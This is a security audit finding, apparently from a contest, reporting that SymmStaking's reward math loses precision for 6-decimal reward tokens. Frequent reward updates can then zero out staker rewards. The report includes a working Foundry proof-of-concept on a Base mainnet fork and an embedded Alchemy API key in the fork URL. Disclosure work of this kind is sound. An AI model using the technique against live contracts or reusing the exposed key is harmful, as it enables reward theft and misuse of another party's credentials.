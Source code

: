 Dizzy Stone Sidewinder

Medium

# Frequent reward updates for tokens with less decimals will prevent stakers from receiving rewards

## Summary:

The `SymmStaking` contract is vulnerable to precision loss due to differing decimal precisions between the staking token (assumed to be 18 decimals) and reward tokens (e.g., USDC, USDT with 6 decimals). This leads to significant reward calculation errors and stakers receiving 0 rewards. An attacker can exploit this by frequently triggering reward updates each block, effectively nullifying the reward rate and preventing stakers from accumulating rewards.

## Vulnerability Details:

- **Precision Mismatch:**
  - Using the [rewardPerToken](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L194) calculation for tokens having different decimals will result in permission loss compared to SYMM's 18 decimals.
- **Reward Starvation:**
  - The `_updateRewardsStates` function updates the `rewardPerToken` and `lastUpdated` state variables.
  - An attacker can repeatedly call functions that trigger `_updateRewardsStates` (e.g., `deposit`, `withdraw`, `claimRewards`) at 1-3 blocks because in base the block time is 2 seconds.
  - Because of the precision loss, the `rewardPerToken` calculation may result in a zero value, effectively negating the rewards.
  - NOTE: that the attacker does not need to update rewards every 1-3 blocks if there is organic activity on every block from users interacting with SymmStaking and trigger the rewards update.

## Impact:

- Stakers will receive no rewards at all, as the attacker can manipulate the reward rate to zero.
- Thus no weekly rewards will be distributed to stakers,

## Proof Of Concept:

1. The reward duration is 1 week. This is default duration
2. The Admin sends 1000e6 usdc of rewards to the contract using `notifyRewardAmount` function.
3. Assuming there is atleast 10_000e18 SYMM staked in the contract.
4. [rewardRate](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L370) for usdc will be 1000e6 / 1 weeks = 1000e6 / 604800 = 1653
5. Every 1 to 3 blocks, the attacker will trigger an update rewards by calling `deposit`, `withdraw`, `claimRewards` functions. And the rewadPerToken is calculated as

`(((lastTimeRewardApplicable(_rewardsToken) - rewardState[_rewardsToken].lastUpdated) * rewardState[_rewardsToken].rate * 1e18) / totalSupply)`.

6. When 3 blocks are passed, the time since the last update would be 6 seconds because block time in Base is 2 seconds per block.

`(6 * 1653 * 1e18) / 10_000e18` => this will return 0.9918 ~ 0

7. Since the rewardPerToken is 0, none of the 1000e6 USDC will be distributed to the stakers.

#### Proof Of Code:

1. Use this guide to intergrate **foundry** into your project: [foundry](https://hardhat.org/hardhat-runner/docs/advanced/hardhat-and-foundry)
2. Create a new file `FortisAudits.t.sol` in the `test` directory.
3. Add the following code to the `FortisAudits.t.sol` file:
4. Run the test using `forge test --mt test_FortisAudits_PrecisionLossDueToNoScaling -vvvv`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.27;

import "../contracts/vesting/Vesting.sol";
import "../contracts/vesting/SymmVesting.sol";
import "../contracts/staking/SymmStaking.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "forge-std/Test.sol";
import "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";

contract FortisAudits is Test {
	Vesting public vesting;
	SymmVesting public symmVesting_implementation;
	SymmVesting public symmVesting;
	ERC1967Proxy public proxy;
	SymmStaking public symmStaking_implementation;
	SymmStaking public symmStaking;
	address public admin = makeAddr("admin");
	address public alice = makeAddr("alice");
	address public bluedragon = makeAddr("bluedragon");
	address public bob = makeAddr("bob");
	address public jack = makeAddr("jack");
	address public USDC = 0x833589fCD6eDb6E08f4c7C32D4f71b54bdA02913;
	address public SYMM = 0x800822d361335b4d5F352Dac293cA4128b5B605f;
	address public VAULT = 0xbA1333333333a1BA1108E8412f11850A5C319bA9;
	address public ROUTER = 0x76578ecf9a141296Ec657847fb45B0585bCDa3a6;
	address public POOL = 0x94Bf449AB92be226109f2Ed3CE2b297Db94bD995;
	address public PERMIT2 = 0x000000000022D473030F116dDEE9F6B43aC78BA3;
	address public SYMM_LP = 0x94Bf449AB92be226109f2Ed3CE2b297Db94bD995;

	function setUp() public {
		vm.createSelectFork("https://base-mainnet.g.alchemy.com/v2/7lQIfa41qSuRzxZqqrPakiOhNbvMnFID");
		vesting = new Vesting();
		symmVesting_implementation = new SymmVesting();
		symmStaking_implementation = new SymmStaking();
		bytes memory initData = abi.encodeWithSelector(symmStaking_implementation.initialize.selector, admin, SYMM);
		proxy = new ERC1967Proxy(address(symmStaking_implementation), initData);
		symmStaking = SymmStaking(address(proxy));
		initData = abi.encodeWithSelector(symmVesting_implementation.initialize.selector, admin, admin, POOL, ROUTER, PERMIT2, VAULT, SYMM, USDC, SYMM_LP);
		proxy = new ERC1967Proxy(address(symmVesting_implementation), initData);
		symmVesting = SymmVesting(address(proxy));
	}

    function test_FortisAudits_PrecisionLossDueToNoScaling() public {
		uint256 staking_amount = 10_000e18;
		uint256 reward_amount = 1_000e6;
		deal(address(USDC), admin, reward_amount);
		deal(address(SYMM), bluedragon, staking_amount);
		vm.prank(admin);
		symmStaking.configureRewardToken(USDC, true);

		// Users stake SYMM of 10,000 SYMM Tokens
		vm.startPrank(bluedragon);
		IERC20(SYMM).approve(address(symmStaking), staking_amount);
		symmStaking.deposit(staking_amount, bluedragon);
		vm.stopPrank();

		// Now we notify the reward amount of 1,000 USDC
		vm.startPrank(admin);
		address[] memory rewardTokens = new address[](1);
		rewardTokens[0] = USDC;
		uint256[] memory amounts = new uint256[](1);
		amounts[0] = reward_amount;
		IERC20(USDC).approve(address(symmStaking), reward_amount);
		symmStaking.notifyRewardAmount(rewardTokens, amounts);
		vm.stopPrank();

		// Base block time is 2 sec, lets move 3 blocks away => 6 sec
		vm.warp(block.timestamp + 6);

		// User claims the rewards and receives 0 USDC as rewardPerToken is precision lossed
		vm.startPrank(bluedragon);
		symmStaking.claimRewards();
		vm.stopPrank();

		(,,,,uint256 rewardPerToken) = symmStaking.rewardState(USDC);
		assertEq(rewardPerToken, 0);
	}
}
```

## Recommended Mitigation:

A possible mitigation is to convert the USDC rewards to an 18-decimal value when computing for rewardRate for USDC. When claiming rewards, convert the earned USDC rewards back to 6-decimal precision. If it is 0, store the unclaimed partial values of USDC until they can be claimed whole.
